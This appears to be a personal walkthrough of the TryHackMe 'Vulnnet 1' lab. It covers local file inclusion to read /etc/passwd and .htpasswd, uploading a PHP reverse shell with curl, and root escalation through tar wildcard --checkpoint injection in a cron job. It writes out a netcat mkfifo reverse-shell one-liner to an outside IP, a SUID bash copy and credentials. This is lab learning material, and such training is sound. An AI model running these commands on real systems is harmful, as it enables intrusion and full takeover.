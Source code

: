 # 38. Vulnnet 1 🧭
Names | Details
--------|-----
Source | tryhackme
Level | easy
Os | linux

**Notes :**
#other/GAtactics 
#privilegeEscalation/SUID 
curl


## Gaining Access 😉
- from source code, two javascript found which is available at /js directory
- got two links from those
- got one more link `http://vulnnet.thm/index.php?referer=`, this can be used to read /etc/passwd using curl [[#Important commands 🔥]] 1
- Since we are dealing with an Apache web server, we have to find the `.htpasswd` of the `broadcast.vulnnet.thm` web server. By default, you can view web configurations in the `/etc/apache2/sites-enabled/000-default.conf`. Run the following command to read this file:
- by reading `/etc/apache2/.htpasswd` , I got username and hashed password
- logged in to subdomain with this credeantials
- used curl command to upload phprevshell [[#Important commands 🔥]] 2
- got a revshell


## Maintaining Access 🥷
- found crontab which backing up users home. enumerated target dir and got ssh which is only readable. copied to /var/www/html/files and downloaded from browser, connected with ssh
- on crontab, executing by root, they used tar with absolute path
- copied rootbash to /tmp by abusing path variable
- tar wildcard privilege escalation


## Important commands 🔥
1. curl passwd
	```
	curl http://vulnnet.thm/index.php?referer=/etc/passwd
	```
2. upload with curl
	```php
	curl -F "file=@php-reverse-shell.php" -F "plupload=1" -F "name=php-reverse-shell.php" [http://broadcast.vulnnet.thm/actions/photo_uploader.php](http://broadcast.vulnnet.thm/actions/photo_uploader.php) -u developers:<REDACTED>
	
	this
	curl -F "file=@rev.php" -F "plupload=1" -F "name=rev.php" http://broadcast.vulnnet.thm/actions/photo_uploader.php -u developers:997  
	2761drmfsls
	```
3. copying rootbash to /tmp with suid permission
	```
	cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash
	```
4. tar wildcard
	```bash
	echo > '--checkpoint=1'
	echo > '--checkpoint-action=exec=sh shell.sh'
	```
5. inside shell.sh
	```
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.229.254 4444 >/tmp/f
	```
## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- add in etc/hosts
- if you've found subdomains, add subdomains also `/etc/hosts`
- for lfi, check source code also
- search for exploit


--------------------------------
**By Nibras Muhammed** 🤓🖥️